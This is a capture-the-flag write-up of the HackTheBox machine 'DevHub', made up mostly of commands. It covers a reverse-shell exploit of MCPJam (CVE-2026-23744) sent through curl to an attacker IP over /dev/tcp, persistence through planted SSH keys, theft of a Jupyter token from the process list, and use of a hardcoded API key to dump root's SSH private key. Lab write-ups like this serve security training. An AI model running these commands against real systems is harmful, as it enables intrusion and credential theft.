





<div align="center">

# HackTheBox: DevHub

</div>

- [Recon](#recon)
- [Foothold](#foothold)
- [Lateral movement](#lateral-movement)
- [Privilege escalation](#privilege-escalation)
---

# Recon

Nmap reveals 2 open ports, 22 for ssh and 80 for http.
```
$ nmap -sC -sV -oA DevHub 10.129.109.151
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.15 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:78:2e:79:0d:87:13:05:2f:53:8e:e7:3c:55:b6:4c (ECDSA)
|_  256 dd:56:8e:bc:da:b8:38:3e:9a:cd:0b:74:ee:53:85:f8 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devhub.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


After adding devhub.htb to our host list and visiting the website:
```
$ echo "10.129.109.151 devhub.htb" | sudo tee -a /etc/hosts
```
```
$ open http://devhub.htb
```
We are greeted with a page displaying services that are running on the host:



Apparently a mcp inspector is being hosted on port 6274, lets visit it:



We can see that the version of MCPJam is 1.4.2 in the settings page:



# Foothold

A quick google search reveals that MCPJam 1.4.2 is affected by [CVE-2026-23744](https://nvd.nist.gov/vuln/detail/cve-2026-23744).
By abusing this, we are able to obtain a reverse shell.

```
$ nc -lvnp 4444
```

```
$ curl http://devhub.htb:6274/api/mcp/connect --header "Content-Type: application/json" --data "{\"serverConfig\":{\"command\":\"/bin/bash\",\"args\":[\"-c\", \"bash -i >& /dev/tcp/10.10.14.202/4444 0>&1\"]},\"serverId\":\"mytest\"}"
```

Now we are connected to ```mcp-dev@devhub```.

# Lateral movement

Now that we are on the target host, we can acess port 8888 that we saw on the services display page:


On our host:
```
$ ssh-keygen -t ed25519 -N ""
```

On the target host:
```
$ cd ~
```
```
$ mkdir .ssh
```
```
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIBajfb3EkCXb38fNd3yRYEXrDSu8wGCc0XItiKciSPR detoured@kali" > .ssh/authorized_keys
```

On our host:
```
ssh mcp-dev@devhub.htb -L 8888:localhost:8888 -N -i key
```
\
When visiting the page we are faced with a Jupyter login page:



The page shows a command that we can use to get the token, unfortunately it isnt installed on the target host:
```
$ jupyter server list
```
```
Command 'jupyter' not found, but can be installed with:
apt install jupyter-core
Please ask your administrator.
```
However, we can still try to find it by searching the running processes:
```
$ ps -aux | grep jupyter
```

```
analyst     1080  0.3  2.6 410792 105936 ?       Ssl  15:02   0:07 /home/analyst/jupyter-env/bin/python3 /home/analyst/jupyter-env/bin/jupyter-lab --ip=127.0.0.1 --port=8888 --no-browser --notebook-dir=/home/analyst/notebooks --ServerApp.token=a7f3b2c9d8e1f4a5b6c7d8e9f0a1b2c3d4e5f6a7 --ServerApp.password= --ServerApp.allow_origin= --ServerApp.disable_check_xsrf=False
```

By using the token to log in we can access a terminal session as analyst:



Once again, we can add our key to the user's .ssh/authorized_keys file:
```
$ mkdir .ssh
```
```
$ echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIBajfb3EkCXb38fNd3yRYEXrDSu8wGCc0XItiKciSPR detoured@kali" > .ssh/authorized_keys
```
Now we can log in as analyst and read the user flag:
```
$ ssh analyst@devhub.htb -i key
```
```
$ cat user.txt
```

# Privilege escalation

On the target machine, when running:
```
$ ss -tulpn
```
Every port is accounted for except for 5000:
```
Netid  State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process                                
udp    UNCONN  0       0        127.0.0.53%lo:53          0.0.0.0:*                                           
udp    UNCONN  0       0              0.0.0.0:68          0.0.0.0:*                                           
tcp    LISTEN  0       511            0.0.0.0:6274        0.0.0.0:*                                           
tcp    LISTEN  0       4096     127.0.0.53%lo:53          0.0.0.0:*                                           
tcp    LISTEN  0       128            0.0.0.0:22          0.0.0.0:*                                           
tcp    LISTEN  0       511            0.0.0.0:80          0.0.0.0:*                                           
tcp    LISTEN  0       128          127.0.0.1:8888        0.0.0.0:*     users:(("jupyter-lab",pid=1080,fd=6)) 
tcp    LISTEN  0       128          127.0.0.1:5000        0.0.0.0:*                                           
tcp    LISTEN  0       128               [::]:22             [::]:*
```

Lets portforward it to our host and curl it (note that portforwarding isnt mandatory but it will make our life easier when parsing json as we will be able to use jq):
```
$ ssh analyst@devhub.htb -L 5000:localhost:5000 -N -i key
```
```
$ curl http://localhost:5000
```

```
{"auth":"Required - X-API-Key header","endpoints":["/tools/list","/tools/call","/health"],"server":"OPSMCP","status":"operational","version":"2.1.0"}
```

Since we need to authenticate, lets look for the script hosting the service:
```
$ grep -rw / -e 'Required - X-API-Key header' 2>/dev/null
```

```
/opt/opsmcp/server.py:        "auth": "Required - X-API-Key header"
```

Reading the script not only reveals an API key, but also exposes API endpoints, of which, the most promising one is an endpoint that outputs the root's ssh private key:
```
VALID_API_KEY = "opsmcp_secret_key_4f5a6b7c8d9e0f1a"
```
```
if target == "ssh_keys":
            try:
                with open('/root/.ssh/id_rsa', 'r') as f:
                    key_data = f.read()
                return jsonify({
                    "target": "ssh_keys",
                    "root_private_key": key_data,
                    "note": "Emergency recovery key dump"
                })
```

With this new information we are able to craft a curl request and pipe its output into a file:
```
$ curl http://localhost:5000/tools/call -H "X-API-Key: opsmcp_secret_key_4f5a6b7c8d9e0f1a" -H "Content-Type: application/json" -d '{"name":"ops._admin_dump","arguments":{"target":"ssh_keys","confirm":"True"}}' | jq -r '.root_private_key' > rootkey
```

set the files permissions to 600, log in as root and read the flag:
```
$ chmod 600 rootkey
```

```
$ ssh root@devhub.htb -i rootkey
```

```
$ cat root.txt
```
